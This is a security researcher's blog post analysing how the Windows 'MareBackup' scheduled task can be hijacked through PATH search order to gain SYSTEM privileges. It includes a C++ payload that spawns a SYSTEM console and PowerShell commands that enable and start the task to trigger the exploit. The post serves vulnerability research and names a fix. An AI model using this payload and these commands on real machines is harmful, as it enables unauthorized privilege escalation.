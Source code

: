 ```yaml
---
title: "Hijacking the Windows \"MareBackup\" Scheduled Task for Privilege Escalation"
layout: "post"
categories: [ "Privilege Escalation" ]
tags: [ "Exploit", "Privilege Escalation" ]
---
```


The built-in "MareBackup" scheduled task is susceptible to a trivial executable search order hijacking, which can be abused by a low-privileged user to gain `SYSTEM` privileges whenever a vulnerable folder is prepended to the system's `PATH` environment variable (instead of being appended).

As I was working on a semi-automated research project on an unrelated subject, I generated and collected a lot of data with Process Monitor. So, I decided to have a quick look and applied the basic search filters for DLL search order hijacking, just to see if something would come out, even if it was not my initial objective. This is how I observed the following behavior.

![Process Monitor showing the execution of PowerShell by `CompatTelRunner.exe`](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-powershell-search-order.png)
*Process Monitor showing the execution of PowerShell by `CompatTelRunner.exe`*

We have an executable named `CompatTelRunner.exe`, running as `NT AUTHORITY\SYSTEM`, and executing PowerShell, apparently without specifying its absolute path because we can see that it uses the typical executable search order documented [here](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw).

The Python `PATH` entries are highlighted here because Python was known in the past for inserting folders configured with (default) weak permissions in the system's `PATH` environment variable. This issue has since been addressed in the Python installer, and therefore this behavior wouldn't be exploitable here.

Besides, contrary to a typical Ghost DLL hijacking, where `LoadLibrary` would go through all the `PATH` entries because the target file doesn't exist, here the hijacking would work only if a vulnerable entry was prepended to the list, instead of being appended, because the legitimate `powershell.exe` would be found eventually.

![Hypothetical PowerShell search order hijacking](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/diagram-powershell-hijacking.png)
*Hypothetical PowerShell search order hijacking*

Now, assuming that such a vulnerable folder exists, is this behavior really exploitable, and can we trigger it as a low-privileged user? You guessed it, the answer to both of these questions is "*yes*". Let me walk you through a quick analysis.

In total, Process Monitor recorded 13 "Process Create" events for `powershell.exe`. They are all similar so the one shown below was just picked at random. The "Event" tab shows the following command line being executed. Nothing really interesting there.

```powershell
powershell.exe -ExecutionPolicy Restricted -Command Write-Host 'Final result: 1';
```

![Process Monitor - PowerShell process create event details](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-process-create-powershell-event.png)
*Process Monitor - PowerShell process create event details*

The "Process" tab shows the following command line for the parent process. It also confirms that it runs as `NT AUTHORITY\SYSTEM` in session `0`. So, we are sure there is no user impersonation involved here.

```batch
"C:\WINDOWS\system32\compattelrunner.exe" -m:appraiser.dll -f:DoScheduledTelemetryRun
```

![Process Monitor - Parent process details](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-process-create-powershell-process-details.png)
*Process Monitor - Parent process details*

The "Stack" tab shows that the `CreateProcessW` call originated from a function named `PowerShellMatchingPlugin` in `acmigration.dll`.

![Process Monitor - Stack trace leading to the `CreateProcessW` call](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/procmon-process-create-powershell-stack.png)
*Process Monitor - Stack trace leading to the `CreateProcessW` call*

Now, there is a bit of information I already knew, but it was also possible to make an educated guess. The keywords `appraiser` and `ScheduledTelemetry` put me on the right track immediately. I've seen the first one on multiple occasions in a few built-in scheduled tasks, and the second one kind of hints in that direction as well.

We can use PowerShell to quickly enumerate all the scheduled tasks and find the ones with a "command line" action containing the keyword `DoScheduledTelemetryRun`. As a side note, this enumeration should be done as an administrator to ensure that all registered tasks are checked, not just the ones visible to low-privileged users.

```console
PS C:\WINDOWS\system32> Get-ScheduledTask | ? { $_.Actions.Arguments -like "*DoScheduledTelemetryRun*" } | select TaskPath,TaskName,Description,State | fl

TaskPath    : \Microsoft\Windows\Application Experience\
TaskName    : MareBackup
Description : Gathers Win32 application data for App Backup scenario
State       : Ready

TaskPath    : \Microsoft\Windows\Application Experience\
TaskName    : Microsoft Compatibility Appraiser Exp
Description : Collects program telemetry information if opted-in to the Microsoft Customer Experience Improvement Program.
State       : Ready
```

The result shows two candidate scheduled tasks, `MareBackup` and `Microsoft Compatibility Appraiser Exp`, which are both registered under "Application Experience".

![Task Scheduler - Application Experience scheduled tasks](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/task-scheduler-candidate-tasks.png)
*Task Scheduler - Application Experience scheduled tasks*

At this point, we have all the information we need, but just out of curiosity, I opened the file `acmigration.dll`, from which the `CreateProcessW` originates, in Ghidra, to take a look at the `PowerShellMatchingPlugin` function. Unfortunately, Ghidra was not able to reconstruct the initialization of the command line, so I'll just highlight the `CreateProcessW` API call. Apart from the fact that it specifies the creation flag `CREATE_NO_WINDOW`, there is nothing special here either.

![Ghidra - `CreateProcessW` being called from `acmigration!PowerShellMatchingPlugin`](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/ghidra-powershellmatchingplugin.png)
*Ghidra - `CreateProcessW` being called from `acmigration!PowerShellMatchingPlugin`*

The last question is "*can we trigger or start at least one of these two scheduled tasks as a low-privileged user?*". The first one doesn't have any trigger registered, and the second one only has one custom trigger. This is not encouraging, but we can try to start them manually using either `schtasks.exe` or the PowerShell cmdlet `Start-ScheduledTask`.

![PowerShell - Attempting to start the two candidate scheduled tasks](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/powershell-start-scheduled-tasks.png)
*PowerShell - Attempting to start the two candidate scheduled tasks*

We get an "access denied" error when attempting to start `Microsoft Compatibility Appraiser Exp`, but the other one seems to work. To understand why that is, we should take a look at their DACLs, but there is no easy way to do that within the Task Scheduler GUI. However, since I implemented DACL checks for scheduled tasks in [PrivescCheck](https://github.com/itm4n/PrivescCheck), I can use that to my advantage.

![PowerShell - "MareBackup" scheduled task permission check](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/powershell-scheduled-task-permissions.png)
*PowerShell - "MareBackup" scheduled task permission check*

Note that there is actually an easier way to achieve the same result. We can check the DACL of the XML file containing the scheduled task's definition.

!["MareBackup" scheduled task permission check with icacls](/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/cmd-icacls-scheduled-task-file.png)
*"MareBackup" scheduled task permission check with icacls*

Whichever method is used, we can see that the `BUILTIN\Users` identity has `AllAccess`, or `FullControl`, over the scheduled task. "*So, that means I can modify the scheduled task as a low-privileged user and achieve LPE? That's an 0-day!*"

The result of the `icacls` command shows that we have full control over the scheduled task file, but that doesn't serve any purpose since there is a checksum stored in the registry, and an integrity check is performed by the `Schedule` service when the tasks are loaded. Theoretically, the only way to modify a scheduled task is through the `Schedule` service using RPC, and all the procedures verify that the client has administrator privileges. The only exception that I'm aware of is the one used for enabling / disabling tasks.

So, no actual vulnerability here, but this does explain why we can start the scheduled task manually without administrator privileges.

One question remains, what about the payload? Well, we don't really care about preserving the original feature. It's just a scheduled task for collecting telemetry data after all, it's not system-critical, so we can execute whatever we want without having to ensure that the PowerShell commands are actually executed. In addition, the `Schedule` service will use the default `SYSTEM` token, which has `SeTcbPrivilege` enabled. Therefore, I opted for my personal favorite: spawning a `SYSTEM` console on the user's desktop (original code [here](https://googleprojectzero.blogspot.com/2016/01/raising-dead.html)).

```cpp
HANDLE hToken = NULL, hTokenDup = NULL;
STARTUPINFO si = { 0 };
PROCESS_INFORMATION pi = { 0 };
LPCWSTR pwszApplication = L"cmd.exe";
DWORD dwSessionId = 1; // Set to the target user's session ID
                       // (or invoke WTSGetActiveConsoleSessionId() to get the console session ID)

// Error checks were removed for conciseness
OpenProcessToken(GetCurrentProcess(), MAXIMUM_ALLOWED, &hToken);
DuplicateTokenEx(hToken, MAXIMUM_ALLOWED, NULL, SecurityAnonymous, TokenPrimary, &hTokenDup);
SetTokenInformation(hTokenDup, TokenSessionId, &dwSessionId, sizeof(dwSessionId));

si.cb = sizeof(si);
si.wShowWindow = SW_SHOW;
si.lpDesktop = const_cast<wchar_t*>(L"WinSta0\\Default");

CreateProcessAsUserW(hTokenDup, pwszApplication, NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);
CloseHandle(hTokenDup);
CloseHandle(hToken);
```

Finally, below is a list of all the commands you'll need to check for and exploit this "*vulnerability*". The only thing to pay attention to is whether a `PATH` folder entry with weak permissions is placed before the default Windows PowerShell folder path.

```powershell
# Check the system PATH
Get-ItemProperty -Path "Registry::HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -Name "Path" | Select-Object -ExpandProperty Path
# Check whether the scheduled task exists and is enabled
Get-ScheduledTask -TaskName "MareBackup"
# Enable the scheduled task if needed
Enable-ScheduledTask -TaskPath "\Microsoft\Windows\Application Experience" -TaskName "MareBackup"
# Start the scheduled task
Start-ScheduledTask -TaskPath "\Microsoft\Windows\Application Experience" -TaskName "MareBackup"
```

> In the video below, the user is named "Admin", and is indeed a member of the local "Administrators" group, but everything is done under "medium" integrity since User Account Control (UAC) is enabled, so the PowerShell process doesn't have administrator privileges.
{: .prompt-info}

{% include embed/video.html src='/assets/posts/2025-05-20-hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/poc.webm' title='Exploitation of the PrintNightmare vulnerability' muted=true %}

The term "*vulnerability*" is obviously not appropriate here because the actual vulnerability lies in the fact that a folder with weak permissions was inserted in the system's `PATH` environment variable. Nonetheless, it is possible to avoid such a behavior by constructing the absolute path of `powershell.exe` before calling `CreateProcess`, rather than relying on a potentially hijackable search order.

That's all for this post, it was a rather short one for once. Back to my main project now... :wink:

***This article was originally posted on SCRT's blog [here](https://blog.scrt.ch/2025/05/20/hijacking-the-windows-marebackup-scheduled-task-for-privilege-escalation/).***
